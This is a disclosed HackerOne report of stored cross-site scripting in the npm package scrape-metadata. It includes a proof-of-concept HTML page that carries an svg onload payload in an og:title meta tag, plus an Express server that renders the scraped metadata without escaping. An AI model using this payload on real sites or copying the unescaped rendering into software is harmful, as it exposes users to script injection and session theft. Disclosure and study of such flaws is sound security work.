 # stored xss in scrape-metadata when reading metadata from an html page

## Report Details
- **Report ID**: 369573
- **URL**: https://hackerone.com/reports/369573
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-06-21T15:16:13.694Z
- **Disclosed**: 2018-07-27T11:25:18.117Z

## Reporter
- **Username**: johnssimon007
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hy

# Module
scrape-metadata
https://www.npmjs.com/package/scrape-metadata

## Module Description
a module used to scrape meta data contents from an article

## Vulnerability Description
It was possible to embed malicious js code in metadata content read by scrape-metadata. When library reads such metadata, there was no sanitization performed. If output from scrape-metadata is rendered directly in HTML code,it can lead to xss/html injection.

## Steps To Reproduce:
create a website, I used a local server available at http://127.0.0.1:8080
Below is html file with js code injected in 'og:title property' and i uploaded the file to my
remote server http://pokegen.in/test.html

<!doctype html>
<html xmlns:og="http://ogp.me/ns#" lang="en">

<head>
    <meta charset="utf8">
    <title>scrap-meta</title>

    <meta property="og:description" content="hackerone">
    <meta property="og:image" content="image">
    <meta property="og:title" content='https://google.com<svg/onload=prompt(1)>'>
    <meta property="og:type" content="article">
</head>
<body>
</body>
</html>

install scrape-metadata
npm install scrape-metadata

const http=require('http');
const server=http.createServer();
const express=require('express');
const app=express();
const scrape = require('scrape-metadata')
var url = "http://pokegen.in/test.html";
app.get('/scrap', function(req, res) {
scrape(url, (err, meta) => {
    console.log(meta)
      let __html = `
               <div>
                   <p>site title:${JSON.stringify(meta)}</p>
               </div>
           `
           res.send(__html)
  });

});

app.listen(8080)

save this as scrap.js
now run the app,node scrap.js
now goto http://127.0.0.1:8080/scrap on browser.and you will get a javascript prompt

Supporting Material/References:

Configuration I've used to find this vulnerability:
windows 7
node 8.9.3
npm 5.5.1
curl 7.54.0
# Wrap up
 If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,
johns simon


- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

This might lead to stealing session cookies from infected website, and much more sophisticated attacks

## Attachments
No attachments
